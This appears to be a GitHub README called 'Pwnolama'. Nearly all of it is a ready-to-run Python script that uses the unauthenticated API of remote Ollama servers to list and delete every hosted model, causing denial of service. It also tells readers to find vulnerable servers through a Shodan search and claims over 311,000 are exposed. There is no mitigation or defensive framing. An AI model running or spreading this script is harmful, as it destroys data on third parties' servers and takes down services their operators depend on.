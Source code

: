 # Pwnolama
Save this below code as python pwn.py script and run it against any remote instance of the OLLAMA or you can search the instance from shodan using the search key "Ollama is running" for remote testing right now 311,159 are running and affected.

```
import requests
import time
import sys

# ASCII Art
ascii_art = r'''                        
________  _  ______   ____ |  | _____    _____ _____   
\____ \ \/ \/ /    \ /  _ \|  | \__  \  /     \\__  \  
|  |_> >     /   |  (  <_> )  |__/ __ \|  Y Y  \/ __ \_
|   __/ \/\_/|___|  /\____/|____(____  /__|_|  (____  /
|__|              \/                 \/      \/     \/ 

by @vishwaraj101
'''
print(ascii_art)

# Check if target argument is provided
if len(sys.argv) < 2:
    print("❌ Error: Please provide the target IP as an argument.")
    print("Usage: python script.py <target-ip>")
    sys.exit(1)

# Get target IP from arguments
target = sys.argv[1]
base_url = f"{target}"

def delete(model):
    """Delete a specific model."""
    url = f"{base_url}/api/delete"
    payload = {"model": model}

    try:
        response = requests.delete(url, json=payload, timeout=5)
        if response.status_code == 200:
            print(f"✅ Model '{model}' deleted successfully.")
        else:
            print(f"❌ Failed to delete '{model}'. Status Code: {response.status_code}, Response: {response.text}")
    except requests.exceptions.RequestException as e:
        print(f"⚠️ Error deleting model '{model}': {e}")

def get_models():
    """Fetch all available models."""
    url = f"{base_url}/api/tags"
    
    try:
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            data = response.json()
            return [model["name"] for model in data.get("models", [])]
        else:
            print(f"⚠️ Failed to fetch models. Status Code: {response.status_code}")
            return []
    except requests.exceptions.RequestException as e:
        print(f"⚠️ Error fetching models: {e}")
        return []

# Keep deleting models until none are left
while True:
    models = get_models()

    if not models:
        print("🎉 All models have been deleted!")
        break

    for model in models:
        delete(model)
        time.sleep(1)  # Optional delay to avoid rapid requests
```
### Impact
Using this we can delete all the existing models and cause DOS right now 311,159 hosts are running this software.
